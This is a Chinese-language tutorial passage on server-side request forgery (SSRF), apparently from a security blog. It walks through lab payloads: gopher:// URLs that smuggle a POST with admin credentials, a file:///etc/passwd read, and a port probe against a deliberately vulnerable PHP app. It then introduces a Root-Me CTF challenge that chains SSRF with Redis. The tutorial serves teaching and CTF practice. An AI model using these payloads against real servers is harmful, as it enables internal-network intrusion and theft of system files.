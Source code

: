 开启PHP的web环境，访问http://localhost/ssrf.php?url=，页面显示正常即可。在一个bash中开启监听端口，来模仿即将被SSRF到的内网服务，此处采用nc。

浏览器访问如下链接：```http://localhost/ssrf.php?url=http://127.0.0.1:2233```。监听端可以看到来自localhost的请求，请求目标为127.0.0.1的2233端口。

![1560156050670](https://misakikata.github.io/2019/06/SSRF/1560156050670.png)

使用gopher协议来查看协议，访问：```http://localhost/ssrf.php?url=gopher://127.0.0.1:2233/_test```

![1560156243997](https://misakikata.github.io/2019/06/SSRF/1560156243997.png)

利用gopher发送POST的请求，访问：```http://localhost/ssrf.php?url=gopher://127.0.0.1:2233/_POST%20%2findex.php%20HTTP%2f1.1%250d%250aHost%3A%20127.0.0.1%3A2233%250d%250aConnection%3A%20close%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250a%250d%250ausername%3Dadmin%26password%3Dpassword```

![1560157345590](https://misakikata.github.io/2019/06/SSRF/1560157345590.png)

以上方式简单的展示了SSRF的攻击过程和请求，下面我们使用回显形SSRF。

漏洞环境：Ubuntu 18、 docker 、PHP、Apache

漏洞文件地址：https://github.com/nikosdano/SSRF-Vulnerable-with-Curl

下载文件放入apache服务器中，访问<http://192.168.120.132/awesome_script.php>

![1560158703440](https://misakikata.github.io/2019/06/SSRF/1560158703440.png)

在其中我们可以填写想要执行的SSRF命令，如填写```file:///etc/passwd```，回显为：

![1560158751037](https://misakikata.github.io/2019/06/SSRF/1560158751037.png)

尝试端口探测，对22端口进行探测是否开启：

![1560159113711](https://misakikata.github.io/2019/06/SSRF/1560159113711.png)

截至到此，相信对SSRF已经有了一个简单认识和检测，下面我们利用一个靶场来模拟一个完整的真实的SSRF攻击。

# 4. 实战演示

## 4.1 漏洞环境
Rootme CTF all the day

## 4.2 漏洞地址
<https://www.root-me.org/en/Capture-The-Flag/CTF-all-the-day/>

## 4.3 利用工具
Burp

## 4.4 漏洞介绍
SSRF+redis 获取内网主机权限，利用SSRF来对redis的未授权访问执行命令。从而达到获取主机权限的目的
